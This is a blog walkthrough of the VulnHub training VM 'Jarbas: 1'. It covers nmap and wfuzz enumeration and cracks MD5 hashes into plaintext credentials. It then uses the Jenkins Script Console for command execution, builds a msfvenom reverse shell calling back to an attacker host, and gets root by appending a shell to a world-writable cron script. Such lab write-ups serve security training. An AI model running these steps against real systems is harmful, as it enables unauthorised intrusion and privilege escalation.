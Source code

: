 ```yaml
---
layout: post
date: 2018-08-03 12:16:52 +0000
last_modified_at: 2018-12-09 08:17:42 +0000
title: "Jarbas: 1 Walkthrough"
subtitle: "Those Were the Days"
category: Walkthrough
tags: [VulnHub, "Jarbas"]
comments: true
image:
  feature: jarbas-1-walkthrough.jpg
  credit: Free-Photos / Pixabay
  creditlink: https://pixabay.com/en/books-library-education-literature-768426/
---
```


This post documents the complete walkthrough of Jarbas: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

A tribute to a nostalgic Brazilian search engine in the end of 90’s. The aim is to get a `root` shell.

## Information

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

`nmap` finds `22/tcp`, `80/tcp`, `3306/tcp`, and `8080/tcp` open. Nothing unusual here.

## Directory/File Enumeration

Let's use `wfuzz` to determine any directories or files of interest. I use the following options.

```
# export WORDLIST=/usr/share/wfuzz/wordlists/general
# wfuzz -w $WORDLIST/megabeast.txt -w $WORDLIST/extensions_common.txt --hc 404 -t 64 http://192.168.10.130/FUZZFUZ2Z
```

Here's the result of running the command.

```
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.10.130/FUZZFUZ2Z
Total requests: 1272964

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

009671:  C=200     13 L	      28 W	    359 Ch	  "access - .html"
582568:  C=200   1006 L	    4983 W	  74409 Ch	  "icons - /"
600443:  C=200    403 L	    1784 W	  32808 Ch	  "index - .html"
```

Here's what `access.html` looks like.

![access.html](/assets/images/posts/jarbas-1-walkthrough/01cca602.png)

The usernames and password hashes is a clear invitation to perform offline password cracking.

## Jenkins

**John the Ripper** can crack the password hashes as follows.

```
# john --format=raw-md5 --show hashes.txt
tiago:italia99
trindade:marianna
eder:vipsu

3 password hashes cracked, 0 left
```

It turns out that **Jenkins** is running behind `8080/tcp` seen earlier in the `nmap` scan. Here's what it looks like.

![Jenkins](/assets/images/posts/jarbas-1-walkthrough/fd1eb8f9.png)

The credential (`eder:vipsu`) allows us to login in to **Jenkins**.

![Logged In](/assets/images/posts/jarbas-1-walkthrough/9e1fb477.png)

I soon discover that **Jenkins** allows the execution of Groovy scripts in **Script Console**.

![Script Console](/assets/images/posts/jarbas-1-walkthrough/7507d3e1.png)

## Groovy Script

According to [Wikipedia](https://en.wikipedia.org/wiki/Apache_Groovy),

> Apache Groovy is a Java-syntax-compatible object-oriented programming language for the Java platform. It is both a static and dynamic language with features similar to those of Python, Ruby, Perl, and Smalltalk. It can be used as both a programming language and a scripting language for the Java Platform, is compiled to Java virtual machine (JVM) bytecode, and interoperates seamlessly with other Java code and libraries.

The console is able to execute shell commands like so.

![id](/assets/images/posts/jarbas-1-walkthrough/407406c2.png)

The result above shows the output of running `id`. We are executing shell commands in the context of the `jenkins` account.

Let's see if we can execute `wget` to get ourselves a shell.

![wget](/assets/images/posts/jarbas-1-walkthrough/df946598.png)

Awesome. Now, we can transfer a reverse shell executable over. But, before we do that, we need to determine if we are dealing with a 32-bit or 64-bit OS.

![uname -a](/assets/images/posts/jarbas-1-walkthrough/c08a81a2.png)

Let's generate the reverse shell on our attacking machine:

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.128 LPORT=4444 -f elf -o rev
```

We can now set up `SimpleHTTPServer` on our attacking and transfer it over with `wget` at the **Script Console**.

_On our attacking machine_

![wget](/assets/images/posts/jarbas-1-walkthrough/c842c9da.png)

_At the **Script Console**_

![wget](/assets/images/posts/jarbas-1-walkthrough/89ef4e95.png)

Remember to make the `/tmp/rev` executable with `chmod +x /tmp/rev`.

![ls](/assets/images/posts/jarbas-1-walkthrough/18f4e608.png)

We should be good to go. Let's run our `netcat` listener and execute `/tmp/rev` at the console.

![shell](/assets/images/posts/jarbas-1-walkthrough/40bd5800.png)

We have shell.

## Privilege Escalation

I had my hopes pinned on [CVE-2017-1000253](https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt) from the get-go.

![CentOS](/assets/images/posts/jarbas-1-walkthrough/0e4bacad.png)

The VM is running on CentOS 7 with a 3.10 kernel. The conditions are almost identical to CVE-2017-1000253.

Too bad the VM is one version shy of being vulnerable. I've no choice but to look for other ways to gain root access.

During the process of checking for world-writable files in the VM, I stumbled upon this.

```
$ find / -type f -perm /o+w -ls 2>/dev/null
...
844412    4 -rwxrwxrwx   1 root     root           50 Apr  1 14:00 /etc/script/CleaningScript.sh
```

![CleaningScript.sh](/assets/images/posts/jarbas-1-walkthrough/d9f3a650.png)

If I had to guess from its content, I would say this is probably running under `root`'s `crontab`.

Let's append our reverse shell to the script.

![rev](/assets/images/posts/jarbas-1-walkthrough/4b94503e.png)

Boom. A `root` shell.

![root](/assets/images/posts/jarbas-1-walkthrough/d710bca7.png)

My guess was right.

![crontab](/assets/images/posts/jarbas-1-walkthrough/2198ba7e.png)

## Eyes on the Prize

Getting the flag is trivial.

![flag](/assets/images/posts/jarbas-1-walkthrough/bad0fdf5.png)

:dancer:

[1]: https://www.vulnhub.com/entry/jarbas-1,232/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
